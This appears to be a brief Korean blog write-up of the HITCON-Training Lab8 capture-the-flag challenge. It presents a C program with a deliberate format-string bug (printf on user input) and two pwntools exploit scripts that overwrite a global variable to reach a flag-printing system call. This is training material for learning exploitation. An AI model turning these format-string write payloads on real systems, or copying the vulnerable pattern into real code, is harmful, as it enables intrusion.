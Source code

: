 ```yaml
---
title: "[HITCON-Training]Lab8"
date: 2019-11-17
tags: [hitcon]
categories: [HITCON-Training]
---
```


그냥 magic 값만 맞춰주면 풀리는 문제다.

```c
#include <stdio.h>

int magic = 0 ;

int main(){
	char buf[0x100];
	setvbuf(stdout,0,2,0);
	puts("Please crax me !");
	printf("Give me magic :");
	read(0,buf,0x100);
	printf(buf);
	if(magic == 0xda){
		system("cat /home/craxme/flag");
	}else if(magic == 0xfaceb00c){
		system("cat /home/craxme/craxflag");
	}else{
		puts("You need be a phd");
	}

}
```

pwn 모듈 사용해서 magic의 값을 0xFACEB00C로 바꿔주면 된다.

> exploit.py

```python
from pwn import *

e = ELF('./craxme')
p = process('./craxme')

offset = 7
magic = 0x0804A038
#payload = fmtstr_payload(offset,{magic:0xDA})
payload = fmtstr_payload(offset,{magic:0xFACEB00C})
p.sendlineafter(':',payload)
p.interactive()
```

<br />

> exploit.py

```python
from pwn import *

e = ELF('./craxme')
p = process('./craxme')
offset = 7

payload = p32(0x0804A038)
payload += '%{}d'.format(214)
payload += '%{}$hhn'.format(offset)

p.sendlineafter(':',payload)
p.interactive()
```

